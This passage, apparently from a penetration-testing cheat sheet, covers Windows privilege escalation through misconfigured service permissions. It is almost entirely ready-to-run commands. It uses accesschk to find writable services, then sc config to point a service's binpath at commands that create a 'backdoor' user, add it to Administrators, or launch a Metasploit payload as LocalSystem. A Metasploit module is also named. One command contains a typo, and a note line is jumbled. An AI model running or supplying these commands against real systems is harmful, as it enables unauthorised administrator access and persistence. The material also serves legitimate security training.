 If it fails because of a missing dependency, run the following:

```text
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```

Or remove the dependency:

```text
sc config upnphost depend= ""
```

Using meterpreter:

```text
exploit/windows/local/service_permissions
```

## acesschk.exe

If wmic and sc is not available, you can use accesschk. For Windows XP, version 5.2 of accesschk is needed:

```text
https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
```

```text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```

Then query the service using Windows sc:

```text
sc qc <vulnerable service name>
```

Then change the binpath to execute your own commands \(restart of the service will most likely be needed\):

```text
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
sc stop <vuln-service>
sc start <vuln$ -service>
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
sc stop <vuln-service>
sc start <vuln-service>
```

Note - Might need to use the depend attribute explicitly:sc stop &lt;vuln-service&gt;

```text
sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
sc start <vuln-service>
```
